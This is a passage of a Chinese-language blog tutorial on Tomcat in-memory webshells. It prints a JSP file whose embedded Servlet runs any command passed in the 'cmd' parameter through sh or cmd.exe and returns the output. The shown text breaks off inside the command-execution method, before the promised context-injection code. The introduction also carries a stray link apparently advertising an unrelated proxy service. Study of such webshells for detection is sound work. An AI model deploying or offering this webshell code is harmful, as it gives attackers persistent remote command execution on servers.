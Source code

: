 
## JSP Servlet内存马


至于Servlet的概念就不分析了，可以参考我的[Tomcat组件概念](https://github.com):[FlowerCloud机场](https://hanlianfangzhi.com)这篇博客，下边这段代码是在IDEA中创建的基础模板上的index.jsp做的修改，参考我的帖子：[IDEA配置JAVA WEB环境](https://github.com)。


然后我们分析一下这段代码


重点关注一下往context中写入Servlet的过程即可，Servlet本身没什么好说的



```
<%@ page contentType="text/html; charset=UTF-8" pageEncoding="UTF-8" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="javax.servlet.Servlet" %>
<%@ page import="javax.servlet.ServletConfig" %>
<%@ page import="javax.servlet.ServletException" %>
<%@ page import="javax.servlet.ServletRequest" %>
<%@ page import="javax.servlet.ServletResponse" %>

<%!
  // 定义一个简单的 Servlet 用于执行系统命令，Servlet没什么可说的，和正常的接口没什么区别，主要是看一下如何动态获取context，并且往context里边写入Servlet的
  Servlet servlet = new Servlet() {
    @Override
    public void init(ServletConfig servletConfig) throws ServletException {
      // 初始化逻辑（可为空）
    }

    @Override
    public ServletConfig getServletConfig() {
      return null; // 不需要配置
    }

    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
      // 获取传入的命令参数
      String cmd = servletRequest.getParameter("cmd");
      if (cmd == null || cmd.trim().isEmpty()) {
        servletResponse.getWriter().println("No command specified.");
        return;
      }
      // 判断windows类型并调用cmd指令
      boolean isLinux = !System.getProperty("os.name").toLowerCase().contains("win");
      String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
      String output = executeCommand(cmds);
      servletResponse.setContentType("text/plain");
      servletResponse.getWriter().println(output);
    }

    private String executeCommand(String[] cmds) {
      StringBuilder output = new StringBuilder();
      try (InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
           Scanner scanner = new Scanner(in).useDelimiter("\\a")) {
        if (scanner.hasNext()) {
          output.append(scanner.next());
        }
```